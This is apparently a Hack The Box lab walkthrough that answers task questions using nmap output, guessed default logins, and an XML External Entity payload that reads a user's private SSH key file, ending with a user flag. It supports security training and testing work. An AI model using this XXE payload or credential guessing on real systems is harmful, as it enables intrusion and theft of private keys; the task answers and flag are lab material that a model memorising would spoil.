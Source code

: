 # Connect to HTB
openvpn starting_point_MidnightKali.ovpn

# Spawn Machine

# Target machine IP address
10.129.176.122

# Export to variable
export IP=10.129.176.122

TASK 1

What version of Apache is running on the target's port 80?

# Run NMAP for enumeration
nmap -sC -sV $IP -oN nmap-sC-sV.txt

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

2.4.41

TASK 2

What username:password combination logs in successfully?

# We are met with a simple login page. Attempting a number of default credentials

admin:admin
administrator:administrator
admin:administrator
admin:password
administrator:password

admin:password

TASK 3

What is the word at the top of the page that accepts user input?

order

TASK 4

What XML version is used on the target?

1.0

What does the XXE / XEE attack acronym stand for?

XML External Entity

TASK 6

What username can we find on the webpage's HTML code?

daniel

TASK 7

What is the file located in the Log-Management folder on the target?

job.bat

XEE 

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>

TASK 8

What executable is mentioned in the file mentioned before?

wevtutil.exe

10.129.95.192

SUBMIT FLAG

Submit user flag

HTB{032d2fc8952a8c24e39c8f0ee9918ef7}

